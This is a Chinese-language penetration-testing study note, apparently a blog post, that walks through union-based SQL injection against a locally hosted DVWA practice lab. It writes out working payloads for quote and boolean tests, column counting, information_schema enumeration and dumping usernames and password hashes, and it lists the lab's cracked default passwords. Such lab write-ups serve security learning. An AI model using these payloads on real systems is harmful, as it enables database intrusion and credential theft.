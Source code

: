 +++
date = "2019-08-13T10:37:42+08:00"
menu = ""
categories = ["渗透学习笔记"]
tags = ["DVWA靶场通关"]

banner = "banners/dedsec.gif"
title = "SQL注入（Union注入）"
description = "GET - 有报错 - 单引号 - 字符型注入"
images = []

+++

- 漏洞类型：SQL注入/Get 字符型

- 安全级别：Low

- 目标：通过注入SQL语句，获取 MySql 数据库存放的用户名和密码

- 页面URL：http://www.dvwa.com/vulnerabilities/sqli/?id=1（本地搭建的靶场）

![正常页面](https://ae01.alicdn.com/kf/U4ef8e082a42c404f8be88e4db38b0ef33.png)

---

# 判断注入类型

#### 正常输入数字查询信息，下图为为输入3时，显示的信息。

![user id=3](https://ae01.alicdn.com/kf/Ua09c3083509142c0bd8eb5051a18ee5el.png)

#### 数字后面，加上单引号测试

> http://www.dvwa.com/vulnerabilities/sqli/?id=1'&Submit=Submit#

#### 得到报错，不过还不能确定是字符型，还是数字型注入。


> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1

#### 去掉 id=1 后的 “单引号” 继续用布尔值测试

布尔值

> ①：?id=1 and 1=1&Submit=Submit#
> 
> ②：?id=1 and 1=2&Submit=Submit#


在正常的查询语句后，加上**"and 1=1"**和**"and 1=2"**后，页面仍然正常显示，并正常查询出了用户基本信息

![1 and 1=1](https://ae01.alicdn.com/kf/U98a6416bef494ecb942db80ba1cb148cP.png)

如果是数字型注入，id=1 后拼接 “and 1=2”后， 页面应该显示异常，或者有报错信息。
![1 and 1=2](https://ae01.alicdn.com/kf/Ubde00ab900c145fd99b418351422885aB.png)

所以，基本确定，这是一个**字符型注入**，注入的语句，要采用闭合单引号方法，使之带入后端查询。

# 判断当前页面，读取表的字段数量


> ①：'+order by 3--+
> 
> ②：'+order by 4--+


#### order by 2：页面正常

![页面正常](https://images.weserv.nl/?url=https://img03.sogoucdn.com/app/a/100520146/8c97c2f5ef0dae6d74601e6629eeb1a1)

#### order by 3：页面异常，报错

![order by判断字段数](https://images.weserv.nl/?url=https://img02.sogoucdn.com/app/a/100520146/c26b54c4a6b4ec505140b13414829594)

# 确认信息在当前页面，显示的位置


> '+union select 1,2--+

![确认回显位置](https://ae01.alicdn.com/kf/Ucfc3c435aa4a4862820c36cd6044fbf1P.png)


> '+union select database(),version()--+

![查询数据库名、版本信息](https://ae01.alicdn.com/kf/U04cd6a2fa8c147fa9b8c5985bc618e76a.png)


# 读取当前页面，使用的数据库、表


> '+union+select table_schema,table_name
> from+information_schema.tables
> where+table_schema=database()--+


![库名、表名](https://ae01.alicdn.com/kf/U4165d5261666491fa520a4cfddadd0229.png)

# 读取users表的所有字段


> '+union select table_name,column_name 
from information_schema.columns 
where table_schema=database() and table_name='users'--+

![user表所有字段名](https://ae01.alicdn.com/kf/Ubeb6e448ad6e445eb82d6e2038fe79ab1.png)

我们看到了 “user”，“password” 字段，这两列里面，包含的内容这就是我们得目标了。

接下来就要从users表中，读取这两个字段得内容了。

# 读取用户名和密码


> ' union select user,password from dvwa.users--+


![用户名、密码](https://ae01.alicdn.com/kf/U405e22e37ac44aedb0ef8c48d1b5b9380.png)

密码被加密保存，目测（滑稽）md5加密

# 解密md5，得到登陆密码
> admin：5f4dcc3b5aa765d61d8327deb882cf99（password）
> 
> gordonb：e99a18c428cb38d5f260853678922e03（abc123）
> 
> 1337：8d3533d75ae2c3966d7e0d4fcc69216b（charley）
> 
> pablo：0d107d09f5bbe40cade3de5c71e9e9b7（letmein）
> 
> smithy：5f4dcc3b5aa765d61d8327deb882cf99（password）



# 总结

- 先看传输参数，是用的HTTP协议中的，那种传输方式
- 再判断是字符型还是数字型的注入，选择闭合或者其他方法，保证语句生效
- 确定网站页面信息的回显位置
- 构建SQL查询语句
- "+" 和 空格效果一样，但是在cookie注入时，用"+"代替空格
